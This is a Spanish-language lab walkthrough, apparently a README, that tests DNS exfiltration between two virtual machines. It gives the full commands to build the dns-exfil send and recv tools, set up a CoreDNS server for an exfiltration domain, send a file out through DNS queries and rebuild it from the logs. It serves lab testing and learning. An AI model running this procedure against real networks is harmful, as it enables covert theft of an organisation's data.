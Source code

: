 # Prueba de exfiltración DNS



## Escenario

2 máquinas virtuales:

- `DNS_Client`: Máquina infectada que hará las peticiones DNS para exfiltrar los datos al servidor.
- `DNS_Server`: Servidor del atacante que recibirá las peticiones DNS y reconstruirá el fichero exfiltrado a través de los logs de las peticiones recibidas.

**_NOTA_**: Las 2 máquinas virtuales estarán en la misma red interna, en un escenario más realista deberían de estar en redes distintas, `DNS_Client` es la máquina infectada y debería de estar dentro de la red de la organización atacada, por otro lado, `DNS_Server` debería de estar en una red privada del atacante, lo más oculta posible.

### Configuración_DNS_Client_

Dirección IP estática: 192.168.1.10
Servidor DNS: 192.168.1.100

#### Configuración de la herramienta de exfiltración

Clonamos el repositorio con la [herramienta de exfiltración](https://github.com/62726164/dns-exfil) y compilamos su módulo `send`, este módulo enviar ficheros a través de peticiones DNS, coge los bytes del fichero y envía estos bytes a través de peticiones DNS, tantas como haga falta dependiendo del tamaño del fichero:

```shell
git clone https://github.com/62726164/dns-exfil
cd send
make
```



### Configuración _DNS_Server_

Dirección IP: 192.168.1.100

#### Configuración servidor DNS

Primero desactivamos el servicio DNS de systemd (DNS por defecto):

```shell
sudo systemctl stop systemd-resolved
sudo systemctl disable systemd-resolved
```

Vamos a configurar un servidor DNS con [coredns](https://coredns.io/), para ello clonamos su repositorio y lo compilamos:

```shell
git clone https://github.com/coredns/coredns
cd coredns
make
```

Ahora creamos el fichero de configuración `Corefile` con el siguiente contenido:

```shell
dns://exfil.go350.com {
	any
	log
}
```
Estamos indicando que el servidor atenderá a todas las peticiones DNS que reciba para el dominio exfil.go350.com, por el puerto 53 y solo DNS, en este caso no atiende DNS sobre TLS (habría que especificar `tls://exfil.go...`).  A esas peticiones responderá una respuesta corta genérica `any`, para no devolver un error, y mostrará un `log` de la petición por la salida estándar.



#### Configuración de la herramienta de exfiltración

Clonamos el repositorio con la [herramienta de exfiltración](https://github.com/62726164/dns-exfil) y compilamos su módulo `recv`, este módulo es el que se encarga de recibir peticiones DNS y reconstruir ficheros en base a los logs de estas peticiones:

```shell
git clone https://github.com/62726164/dns-exfil
cd recv
make
```



## Ejecución 

Iniciamos el servidor DNS en `DNS_Server`, vamos a redirigir la salida estándar a un fichero de log, que será el que utilicemos después para reconstruir el fichero exfiltrado:

```shell
./coredns | grep --line-buffered INFO > /tmp/dns-exfil/dns-log/exfiltrated.log
```



Desde `DNS_Client` creamos el fichero `exfiltrated-data` que va a ser exfiltrado:

```shell
Este es un fichero que va a ser exfiltrado a través de DNS al servidor DNS 192.168.1.100.
```

**_NOTA_**: En un escenario real, `exfiltrated-data` sería información relevante o que es importante ocultar, para la organización atacada.



Una vez creado, lo enviamos mediante peticiones DNS a través de la [herramienta de exfiltración](https://github.com/62726164/dns-exfil):

```shell
./send -d -file ../test-files/exfiltrated-data -marker prueba
```



Desde `DNS_Server` reconstruimos el fichero a partir de los logs de las peticiones recibidas:

```shell
./recv -d -qlog ../dns-log/exfiltrated.log -marker prueba
```

En pantalla podremos ver los logs que se han procesado y el contenido del fichero `exfiltrated-data` reconstruido.



## Herramientas utilizadas

- [`dnscore`](https://github.com/coredns/coredns): Servidor DNS utilizado, también se podría utilizar `bind9`.
- [`dns-exfil`](https://github.com/62726164/dns-exfil): Herramienta de exfiltración DNS utilizada.
